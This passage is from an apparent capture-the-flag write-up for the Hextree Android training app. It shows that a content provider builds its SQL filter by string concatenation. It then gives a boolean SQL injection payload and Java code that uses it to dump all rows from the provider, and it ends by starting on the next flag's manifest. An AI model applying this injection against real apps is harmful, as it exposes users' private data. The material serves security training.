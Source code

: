 ```mermaid
    D4 --> D5[Check for flag32]
    
    D5 --> E{containsFlag32?}
    E -->|Yes| F[Trigger success and<br/>Requery cursor]
    E -->|No| G[Return original cursor]
    
    F --> M[Return refreshed cursor]
    
    style C fill:#d4f1f9,stroke:#333
    style D fill:#f9e4d4,stroke:#333
    style containsFlag32Check fill:#e8f9d4,stroke:#333
```

#### Solution
The key is in the second part cuz it constructs the filters for query and takes input directly and that makes it vulnerable to sql injection  (Boolean based slqi)

```java
String str3 = "visible=1" + (str != null ? " AND (" + str + ")" : "");
        Cursor query = readableDatabase.query(FlagDatabaseHelper.TABLE_FLAG, strArr, str3, strArr2, null, null, str2);
        if (containsFlag32(query)) {
            success(logHelper);
            query.requery();
        }
        return query;
```

so

```sql
visible=1 AND ( any thing) --original
visible=1 AND (1=1) OR (1=1) --what our payload looks like
```

```java
Uri uri = Uri.parse("content://io.hextree.flag32/flags");  
Cursor cursor = getContentResolver().query(uri, null, "1=1) OR (1=1", null, null);  
if (cursor.moveToFirst()) {  
    do {  
        StringBuilder sb = new StringBuilder();  
        for (int i = 0; i < cursor.getColumnCount(); i++) {  
            if (sb.length() > 0) sb.append(", ");  
            sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
        }  
        Log.d("evil", sb.toString());  
    } while (cursor.moveToNext());  
}
```

### Flag 33_1
#### Code analysis
```xml
<provider
            android:name="io.hextree.attacksurface.providers.Flag33Provider1"
            android:enabled="true"
            android:exported="false"
            android:authorities="io.hextree.flag33_1"
            android:grantUriPermissions="true"/>
```
